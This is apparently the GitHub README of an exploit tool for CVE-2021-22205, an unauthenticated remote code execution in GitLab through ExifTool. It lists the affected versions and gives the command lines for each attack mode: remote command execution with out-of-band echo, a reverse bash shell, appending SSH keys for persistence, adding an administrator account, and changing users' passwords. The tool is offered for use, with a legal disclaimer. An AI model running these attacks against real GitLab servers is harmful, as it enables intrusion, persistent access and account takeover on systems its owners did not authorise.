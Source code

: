 # CVE-2021-22205

GitLab CE/EE Preauth RCE using ExifTool

*This project is for learning only, if someone's rights have been violated, please contact me to remove the project, and the last **DO NOT USE IT ILLEGALLY** If you have any illegal behavior in the process of using this tool, you will bear all the consequences yourself. All developers and all contributors of this tool do not bear any legal and joint liabilities*

## Description

An issue has been discovered in GitLab CE/EE affecting all versions starting from 11.9. GitLab was not properly validating image files that were passed to a file parser which resulted in a remote command execution.

Affect Versions:

- \>=11.9, <13.8.8
- \>=13.9, <13.9.6
- \>=13.10, <13.10.3

## Features

- Gitlab version detection through the hash in Webpack manifest.json 

- Automatical out-of-band interactions with DNSLog & ~~PostBin~~ **RequestBin**
- Support Reverse Bash Shell / Append SSH Key to authorized_keys
- Support ENTER to modify and restore gitlab user password

## Usage

```bash
🐚 ››› python CVE-2021-22205.py

      ░░░░▐▐░░░  CVE-2021-22205
 ▐  ░░░░░▄██▄▄  GitLab CE/EE Unauthenticated RCE using ExifTool
  ▀▀██████▀░░  Affecting all versions starting from 11.9
  ░░▐▐░░▐▐░░  security.humanativaspa.it/gitlab-ce-cve-2021-22205-in-the-wild
 ▒▒▒▐▐▒▒▐▐▒  github.com/inspiringz/CVE-2021-22205

Usage:
    python3 CVE-2021-22205.py -u site_url -m detect        # gitlab version & vuln detect
    python3 CVE-2021-22205.py -u site_url -m rce1 'id'     # rce (echo via requestbin oob) 
    python3 CVE-2021-22205.py -u site_url -m rce2 'id'     # rce (echo via write file) *
    python3 CVE-2021-22205.py -u site_url -m rev ip port   # reverse bash shell
    python3 CVE-2021-22205.py -u site_url -m ssh git/root  # append ssh authorized_keys
    python3 CVE-2021-22205.py -u site_url -m add user pass # add manager account *
    python3 CVE-2021-22205.py -u site_url -m mod user      # modify specified user's password => P4ss@GitLab
    python3 CVE-2021-22205.py -u site_url -m rec user      # restore specified user's original password
```

- The `site_url` parameter format: http[s]://<domain|ip>[:port]/, such as: https://example.com:9000/
- Methods(rce2,add) marked by `*` is unstable, may not work :(
- You can modify the script content according to the actual environment

## Screenshot

Detect:

![image-20220116233646585](images/image-20220116233646585.png)

RCE(Echo via RequestBin OOB):

![image-20220116234003576](images/image-20220116234003576.png)

Reverse Bash Shell:

![image-20211111131442470](images/image-20211111131442470.png)

Append SSH Key to authorized_keys:

![image-20211111133555010](images/image-20211111133555010.png)

Gitlab user password modification and restoration:

![image-20211111132115090](images/image-20211111132115090.png)

## Reference

- https://github.com/projectdiscovery/nuclei-templates/blob/637eec3efac6eb384742c7aaa4e7d14f3392ede9/cves/2021/CVE-2021-22205.yaml
- https://gitlab.com/gitlab-org/cves/-/blob/master/2021/CVE-2021-22205.json
- https://github.com/righel/gitlab-version-nse
